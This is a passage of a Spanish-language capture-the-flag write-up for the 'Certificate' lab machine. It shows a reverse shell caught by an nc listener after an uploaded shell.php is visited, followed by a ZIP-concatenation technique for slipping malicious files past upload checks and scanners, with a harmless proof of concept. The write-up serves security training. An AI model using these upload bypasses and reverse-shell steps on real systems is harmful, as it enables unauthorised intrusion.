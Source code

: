 Para ejecutar la reverse shell, bastará con borrar este espacio vacío y todo lo que le sigue para así visitar la siguiente URL, apuntando al archivo `shell.php`

~~~ http
http://certificate.htb/static/uploads/HASH/shell.php
~~~

Cuando cargue la página, desde nuestro listener recibiremos una consola de `powershell` como el usuario `xamppuser`

~~~ bash
rlwrap -cAr nc -lvnp 443     
listening on [any] 443 ...
connect to [10.10.16.123] from (UNKNOWN) [10.10.11.71] 64722

PS C:\xampp\htdocs\certificate.htb\static\uploads\8ad6b1453a685cd6a629959dcfb5039d> whoami
certificate\xamppuser
~~~


## 2. File Upload Bypass - ZIP File Concatenation

Opcionalmente, podemos utilizar otro enfoque para ganar acceso mediante un archivo `.zip` que contenga un archivo malicioso. 

La técnica de evasión por concatenación de archivos ZIP (`ZIP Concatenation Evasion`) es un método para **ocultar malware** y eludir detecciones añadiendo múltiples archivos dentro de un mismo comprimido ZIP.

> Aunque un **archivo comprimido combinado** puede parecer un único archivo, en realidad contiene varios **directorios centrales**, cada uno de los cuales apunta a diferentes conjuntos de **entradas de archivos**. 
{: .notice--info}

### Proof of Concept

En el siguiente ejemplo se muestra cómo se realizaría la concatenación de los archivos ZIP comprimidos 

~~~ bash
echo 'this is a harmless file!' > first.txt
echo 'This is a very scary malware' > second.txt
zip pt1.zip first.txt
zip pt2.zip second.txt
cat pt1.zip pt2.zip > combined.zip
~~~

En este caso, dos archivos ZIP legítimos (`pt1.zip` y `pt2.zip`) se concatenan en un solo archivo (`combined.zip`).

El **directorio central** del segundo archivo (`pt2.zip`) tiene prioridad, lo que significa que solo los archivos que aparecen en este directorio son **visibles** para ciertos lectores de ZIP. 

> Cada herramienta procesa el directorio central de manera diferente, lo que da lugar a una visibilidad variada del contenido oculto o malicioso.
{: .notice--info}
